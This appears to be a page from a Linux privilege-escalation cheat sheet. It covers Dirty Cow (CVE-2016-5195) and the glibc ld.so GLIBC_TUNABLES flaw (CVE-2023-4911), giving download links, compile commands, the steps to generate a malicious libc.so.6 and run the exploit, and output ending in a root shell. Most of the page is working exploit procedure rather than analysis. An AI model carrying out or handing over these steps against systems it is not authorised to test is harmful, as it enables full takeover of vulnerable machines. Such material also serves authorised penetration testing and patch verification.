 #### CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

Download from

```
https://dirtycow.ninja/
```

Then compile

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

#### CVE-2023-4911: Local Privilege Escalation in the glibc's ld.so

**Description** This vulnerability poses a significant risk since it allows escalating the privileges of a logged-on user and obtaining full control of the vulnerable instance. Specifically, this issue could allow a local attacker to use maliciously crafted `GLIBC_TUNABLES` environment variables when launching binaries with SUID permission to execute code with elevated privileges.

This vulnerability is exploited successfully on the default installations of Fedora 37 and 38, Ubuntu 22.04 and 23.04, Debian 12 and 13; other distributions are probably also vulnerable and exploitable (one notable exception is Alpine Linux, which uses musl libc, not the glibc). RHEL-8.5 and onward are vulnerable however RHEL-8.4 and older are not affected by this vulnerability. **Exploitation** A proof of concept `POC` can be found in the link below

```
https://github.com/leesh3288/CVE-2023-4911/blob/main/gen_libc.py
```

First we execute the Python script to generate the malicious `libc.so.6`

```
user@machine:~$ python3 gen_libc.py 

[*] '/lib/x86_64-linux-gnu/libc.so.6' 
Arch: amd64-64-little 
RELRO: Partial 
RELRO Stack: Canary found 
NX: NX enabled 
PIE: PIE enabled
```

Then we compile the exploit

```
user@machine:~$ gcc -o exp exp.c
```

Then we launch the exploit

```
user@machine:~$ ./exp 
try 100 
try 200 
[snip] 
try 3700 
try 3800 
# whoami 
root
```
